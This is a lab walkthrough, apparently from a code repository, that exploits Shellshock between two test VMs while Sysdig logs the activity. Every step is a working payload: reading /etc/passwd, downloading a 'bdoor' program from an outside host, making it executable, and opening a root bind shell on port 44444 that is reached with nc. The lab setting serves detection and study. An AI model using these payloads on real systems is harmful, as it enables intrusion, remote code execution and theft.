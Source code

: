 All following commands are executed from *vm1*. Sysdig logging is enabled on both *vm0* and *vm1*.

1. Testing shellshock vulnerability from *vm1* to *vm0*. Issue the following command from *vm1*.


	```bash
	curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://vm0:8080/cgi-bin/env.cgi
	```
  
  * You should see the content of */etc/passwd* file for *vm0*.

2. Download *backdoor (bdoor)* program using Shellshock.

	```bash
	curl -H "user-agent: () { :; }; echo; echo; curl bdoor0.sbrainconnect.com/bdoor -o /tmp/bdoor" http://vm0:8080/cgi-bin/env.cgi
	```

3. Change permission

	```bash
	curl -H "user-agent: () { :; }; echo; echo; chmod 777 /tmp/bdoor" http://vm0:8080/cgi-bin/env.cgi
	```
4. Open backdoor port (44444). Note that the `curl` command doesn't return since it is running `bdoor`

	```bash
	curl -H "user-agent: () { :; }; echo; echo; /tmp/bdoor -l -p 44444 -e /bin/bash" http://vm0:8080/cgi-bin/env.cgi
	```

5. Open a different terminal on *vm1*. Make connection to *vm0* using the backdoor channel.

	```bash
	nc vm0 44444
	```

From the session, you can run arbitrary command as follows.

  ```bash
  ls
  env.cgi
  ping.cgi
  ping2.cgi
  ls -trl
  pwd
  /usr/local/thttpd/www/cgi-bin
  id
  uid=0(root) gid=0(root) groups=0(root)
  ```  

6. To re-run the attack, please delete the `/tmp/bdoor` on *vm0* first


7. If after `nc` the shell session does not respond, on *vm0* run:

  ```bash
  sudo netstat -anp|grep LIST
  sudo killall -9 bdoor  
  ```
